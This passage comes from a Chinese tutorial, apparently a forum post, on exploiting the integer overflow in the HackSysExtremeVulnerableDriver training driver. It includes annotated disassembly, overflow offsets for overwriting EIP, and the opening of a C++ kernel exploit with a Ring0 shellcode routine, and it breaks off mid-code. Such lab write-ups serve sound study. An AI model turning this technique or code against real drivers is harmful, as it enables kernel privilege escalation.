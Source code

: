 随后，函数会判断输入缓冲区的长度 + 4 是否小于等于 0x800，如果是的话则跳转到 loc_4456E2，否则函数返回 STATUS_INVALID_BUFFER_SIZE。要注意，此时的输入缓冲区的长度做了加法运算，那也就是说，如果输入缓冲区的长度是 0xFFFFFFFC~0xFFFFFFFF，那么经过 + 4 以后，就会产生溢出。

接着看，地址 loc_4456E2。  

```
PAGE:004456E2 loc_4456E2:                             ; CODE XREF: TriggerIntegerOverflow+A5↑j
PAGE:004456E2                                         ; TriggerIntegerOverflow+EB↓j
PAGE:004456E2                 mov     eax, ecx        ; 将输入缓冲区长度赋给eax
PAGE:004456E4                 shr     eax, 2          ; 将eax除以4
PAGE:004456E7                 cmp     esi, eax        ; 判断esi是否大于等于eax
PAGE:004456E9                 jnb     short loc_44572E ; 是的话，函数执行结束
PAGE:004456EB                 mov     eax, [edi]      ; 取出edi所保存的地址中的值
PAGE:004456ED                 cmp     eax, 0BAD0B0B0h ; 判断eax是否等于0x0BAD0B0B0
PAGE:004456F2                 jz      short loc_44572E ; 等于则跳转到函数执行结束
PAGE:004456F4                 mov     [ebp+esi*4+Dst], eax ; 将eax赋值到局部变量Dst的偏移处
PAGE:004456FB                 add     edi, 4          ; edi加4
PAGE:004456FE                 mov     [ebp+arg_InputBuffer], edi
PAGE:00445701                 inc     esi             ; esi加1
PAGE:00445702                 mov     [ebp+var_Count], esi
PAGE:00445705                 jmp     short loc_4456E2

```

注意刚开始运行这段代码的时候，esi 为 0，edi 为输入缓冲区的地址，所以这段代码做的就是将输入缓冲区的内容复制到局部变量 Dst 中，每次复制 4 个字节大小的内容，如果遇到的整型数据是 0x0BAD0B0B0 的话，也会退出函数。

由上可以知道出：

函数会对输入缓冲区的长度进行加 4 操作，接着判断加 4 以后的值，是否小于 0x800，如果是，那么程序就会继续执行将输入缓冲区中的内容赋值到局部变量中，直到输入缓冲区的内容被全部复制完或者遇到了 0x0BAD0B0B0。

此时，通过构造输入缓冲区的长度为 0xFFFFFFFC~0xFFFFFFFF 中的一个，经过 + 4 的操作以后，就会发生整数溢出，这就绕过了小于 0x800 的检查。此时，可以构造足够多的输入数据，让程序发生栈溢出漏洞。

四. 漏洞利用
=======

由上可知，可以通过整数溢出漏洞让程序发生栈溢出漏洞。在 IDA 中，可以看到局部变量 Dst 的偏移是 0x820，也就是说只要构造 0x824 的垃圾数据就可以覆盖掉局部变量和原 EBP 的数据，接着就可以覆盖掉 EIP，而为了让赋值操作停下，就需要在结尾加入标志 0x0BAD0B0B0。  

![](https://bbs.pediy.com/upload/attach/202111/835440_DEMAFZPT6NR58BZ.jpg)

完整的 EXP 代码如下:

```
// exploit.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
//
#include  #include  #include  #include "ntapi.h"
#pragma comment(linker, "/defaultlib:ntdll.lib")
 
#define LINK_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define INPUT_BUFFER_LENGTH 0xFFFFFFFF    // 给足够的输入缓冲区的长度以发生溢出绕过检查
 
void ShowError(PCHAR msg, DWORD ErrorCode);
VOID Ring0ShellCode();
 
BOOL g_bIsExecute = FALSE;
 
int main()
{
    NTSTATUS status = STATUS_SUCCESS;
    HANDLE hDevice = NULL;
    DWORD dwReturnLength = 0;
    STARTUPINFO si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    CONST DWORD dwIoCtl = 0x222003 + 9 * 4;
 
```